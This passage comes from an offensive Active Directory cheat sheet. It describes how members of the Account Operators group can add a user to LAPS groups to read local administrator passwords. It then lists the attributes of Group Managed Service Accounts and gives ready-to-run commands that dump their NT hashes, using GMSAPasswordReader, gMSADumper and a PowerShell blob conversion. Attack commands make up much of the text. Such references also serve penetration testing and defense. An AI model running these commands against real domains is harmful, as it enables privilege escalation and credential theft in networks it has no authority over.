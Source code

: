 The members of the group **"Account Operator"** can add and modify all the non admin users and groups. Since **LAPS ADM** and **LAPS READ** are considered as non admin groups, it's possible to add an user to them, and read the LAPS admin password

```ps1
Add-DomainGroupMember -Identity 'LAPS ADM' -Members 'user1' -Credential $cred -Domain "domain.local"
Add-DomainGroupMember -Identity 'LAPS READ' -Members 'user1' -Credential $cred -Domain "domain.local"
```

## Reading GMSA Password

> User accounts created to be used as service accounts rarely have their password changed. Group Managed Service Accounts (GMSAs) provide a better approach (starting in the Windows 2012 timeframe). The password is managed by AD and automatically rotated every 30 days to a randomly generated password of 256 bytes.

### GMSA Attributes in the Active Directory

- `msDS-GroupMSAMembership` (`PrincipalsAllowedToRetrieveManagedPassword`) \- stores the security principals that can access the GMSA password.
- `msds-ManagedPassword` \- This attribute contains a BLOB with password information for group-managed service accounts.
- `msDS-ManagedPasswordId` \- This constructed attribute contains the key identifier for the current managed password data for a group MSA.
- `msDS-ManagedPasswordInterval` \- This attribute is used to retrieve the number of days before a managed password is automatically changed for a group MSA.

### Extract NT hash from the Active Directory

- [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader) (C#)
    
    ```ps1
    # https://github.com/rvazarkar/GMSAPasswordReader
    GMSAPasswordReader.exe --accountname SVC_SERVICE_ACCOUNT
    ```
    
- [gMSADumper (Python)](https://github.com/micahvandeusen/gMSADumper)
    
    ```powershell
    # https://github.com/micahvandeusen/gMSADumper
    python3 gMSADumper.py -u User -p Password1 -d domain.local
    ```
    
- Active Directory Powershell
    
    ```ps1
    $gmsa =  Get-ADServiceAccount -Identity 'SVC_SERVICE_ACCOUNT' -Properties 'msDS-ManagedPassword'
    $blob = $gmsa.'msDS-ManagedPassword'
    $mp = ConvertFrom-ADManagedPasswordBlob $blob
    $hash1 =  ConvertTo-NTHash -Password $mp.SecureCurrentPassword
    ```
    